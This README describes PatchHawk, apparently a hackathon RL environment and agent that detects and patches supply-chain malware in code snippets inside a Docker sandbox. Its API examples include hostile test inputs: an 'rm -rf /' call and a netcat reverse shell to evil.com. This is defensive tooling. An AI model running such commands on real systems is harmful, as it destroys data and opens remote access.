

# 🦅 PatchHawk: Autonomous Supply-Chain Guard

[](https://wandb.ai/your-username/patchhawk)
[](https://huggingface.co/your-username/patchhawk)
[](https://python.org)
[](LICENSE)
[](https://github.com/pytorch/openenv)

> **RL-powered detection, analysis, and auto-patching of software supply-chain vulnerabilities — built for the PyTorch OpenEnv AI Hackathon.**

---

## 🏗 Architecture



### Core Components

| Component | Path | Description |
|-----------|------|-------------|
| **Agent / Environment** | `patchhawk/agent/environment.py` | OpenEnv `openenv.Env` with Dict obs, Discrete(5) actions |
| **Agent / Sandbox** | `patchhawk/agent/sandbox.py` | Docker sandbox + 3-stage patch validation |
| **Agent / A2A Server** | `patchhawk/agent/server.py` | FastAPI: `GET /agent/card`, `POST /agent/act` |
| **Training** | `patchhawk/training/train_grpo.py` | GRPO with unsloth + trl, 4-bit LoRA, W&B logging |
| **Data Generation** | `patchhawk/data/` | Track A (Meta SDK) + Track B (mutation engine) |
| **Dashboard** | `patchhawk/app/dashboard.py` | Streamlit UI for analysis & validation |
| **Docker** | `docker/Dockerfile.sandbox` | Minimal Python 3.11 sandbox |

---

## 🚀 Quick Start

### 1. Install

```bash
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt
pip install -e .

# Copy and fill in your keys
cp .env.example .env
```

### 2. Build Docker Sandbox

```bash
docker build -t patchhawk-sandbox:latest -f docker/Dockerfile.sandbox .
```

### 3. Generate Scenarios

```bash
# Track B only (always works)
python -m patchhawk.data.generate_scenarios \
    --benign-dir patchhawk/data/benign/ \
    --output patchhawk/data/scenarios.json

# Track A + B (requires vLLM serving + synthetic-data-kit)
python -m patchhawk.data.generate_scenarios --use-sdk --sdk-samples 10
```

### 4. Run Tests

```bash
pytest tests/ -v
```

### 5. Train (Dry Run)

```bash
python -m patchhawk.training.train_grpo --dry-run
```

### 6. Train (Full GPU)

```bash
python -m patchhawk.training.train_grpo --use-docker
```

### 7. Start A2A Server

```bash
uvicorn patchhawk.agent.server:app --host 0.0.0.0 --port 8000
```

Test it:

```bash
# Agent card
curl http://localhost:8000/agent/card | python -m json.tool

# Analyze code
curl -X POST http://localhost:8000/agent/act \
  -H "Content-Type: application/json" \
  -d '{"code_snippet": "import os; os.system(\"rm -rf /\")"}'
```

### 8. Launch Dashboard

```bash
streamlit run patchhawk/app/dashboard.py
```

---

## 📊 Baseline Scores (Dry-Run / Qwen2.5)
These are the baseline scores from running `DRY_RUN=1 python inference.py`, matching the three required hackathon tasks using our heuristic policy baseline:

| Task ID | Description | Success? | Score | Reward |
|---------|-------------|----------|-------|--------|
| `easy_typosquat` | Detect basic typosquatting | ✅ True | 1.00 | +2.00 |
| `medium_obfuscated` | Execution via eval() / obfuscation | ❌ False | 0.00 | +2.00 |
| `hard_patch` | Write patches for subprocess backdoors | ❌ False | 0.00 | +2.00 |

*Baseline context: The agent handles easy detection easily, but medium/hard tasks require a strong trained model that leverages the `EXECUTE_SANDBOX` and `SUBMIT_PATCH` actions effectively. This makes it an ideal environment for the RL hackathon.*

---

## 🌐 HF Spaces Deployment & Validation

PatchHawk is built natively for OpenEnv and deploys seamlessly to HF Spaces.

1. **Create Space**: Go to Hugging Face, create a new Space, select **Docker** runtime.
2. **Push Code**: Push this repository directly to the Space.
3. **Environment**: Set any needed secrets (e.g., `HF_TOKEN`, `API_BASE_URL`).
4. **Validation**: The internal validation script will automatically check the Space:
   ```bash
   ./validate-submission.sh <YOUR_SPACE_URL>
   ```
   *Note: Our `openenv validate` passes locally 5/5 criteria, and 6/6 criteria during runtime validation!*

---

## 🔗 A2A Protocol

PatchHawk exposes an **Agent-to-Agent (A2A)** interface via FastAPI:

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/agent/card` | GET | Agent identity, capabilities, I/O schemas |
| `/agent/act` | POST | Submit code snippet, receive decision + patch |

### Request (`POST /agent/act`)

```json
{
  "code_snippet": "import subprocess; subprocess.call(['nc', '-e', '/bin/sh', 'evil.com', '4444'])"
}
```

### Response

```json
{
  "decision": "BLOCK_PR",
  "patch": null,
  "confidence": 0.92,
  "reward": 2.0,
  "details": { "action_name": "BLOCK_PR", "step": 2 }
}
```

---

## 🎯 Reward Table

| Condition | Reward |
|-----------|--------|
| Correct BLOCK on malicious | +2.0 |
| Correct SUBMIT_PATCH (validated) | +3.0 |
| BLOCK on benign | −1.0 |
| SUBMIT_PATCH on benign (patch applied) | −1.5 |
| Episode ends w/o block/patch on malicious (max_steps) | −5.0 |
| EXECUTE_SANDBOX | +0.1 |

---

## 🔒 Safety & OpenEnv Compliance

- **No real malicious execution**: Docker sandbox runs with `--network none`, `--memory 256m`, `--cpus 0.5`, and non-root user.
- **Re-attack verification**: Stage 3 only checks for *attempts* (socket creation, file writes) — never permits actual harm.
- **SDK fallback**: If `synthetic-data-kit` CLI is not installed, Track A gracefully skips with a warning; Track B always generates ≥40 scenarios.
- **OpenEnv compliant**: `PatchHawkEnv` inherits `openenv.Env` with proper `reset()` → `(obs, info)` and `step()` → `(obs, reward, term, trunc, info)` signatures.
- **Deterministic dry-run**: `--dry-run` mode requires zero GPU and no external services.

---

## 📁 Project Structure

```
PatchHawk/
├── patchhawk/
│   ├── __init__.py              # Config loader
│   ├── openenv.py               # OpenEnv compatibility shim
│   ├── agent/
│   │   ├── __init__.py
│   │   ├── environment.py       # openenv.Env implementation
│   │   ├── sandbox.py           # Docker runner + patch validator
│   │   └── server.py            # FastAPI A2A protocol
│   ├── training/
│   │   ├── __init__.py
│   │   └── train_grpo.py        # GRPO with unsloth + trl + W&B
│   ├── data/
│   │   ├── __init__.py
│   │   ├── generate_scenarios.py
│   │   ├── sdk_config.yaml
│   │   ├── scenarios.json
│   │   └── benign/              # 25 benign Python files
│   └── app/
│       ├── __init__.py
│       └── dashboard.py         # Streamlit dashboard
├── docker/
│   └── Dockerfile.sandbox       # Minimal Python 3.11 sandbox
├── tests/
│   ├── test_env.py              # Environment tests
│   └── test_sandbox.py          # Validator tests
├── config.yaml                  # All hyperparameters
├── requirements.txt
├── setup.py
├── .env.example
└── README.md
```

---

## 📝 License

MIT © PatchHawk Team